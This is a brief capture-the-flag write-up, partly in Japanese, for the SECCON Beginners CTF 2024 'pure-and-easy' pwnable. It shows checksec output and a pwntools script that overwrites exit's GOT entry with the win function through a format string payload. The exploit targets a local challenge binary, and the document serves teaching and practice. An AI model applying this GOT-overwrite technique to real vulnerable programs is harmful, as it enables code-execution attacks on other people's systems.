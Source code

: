 # Format String Bug
- https://feneshi.co/ctf4b2024writeup/#pure_and_easy
- https://docs.pwntools.com/en/stable/fmtstr.html
# 解説
```
pwndbg> checksec
File:     /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/pure-and-easy/chall
Arch:     amd64
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
- Partial RELRO は GOT overwrite が使える
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF('./chall')
io = process([exe.path])
log.info(str(io.recvuntil(b'> ')))
# io.sendline(b"AAAAAAAA,"+bytes(",".join(["%p" for _ in range(20)]), "utf-8"))
io.sendline(fmtstr_payload(6, {
    exe.got['exit']: exe.symbols['win']
}))
log.info(str(io.recvall()))
```
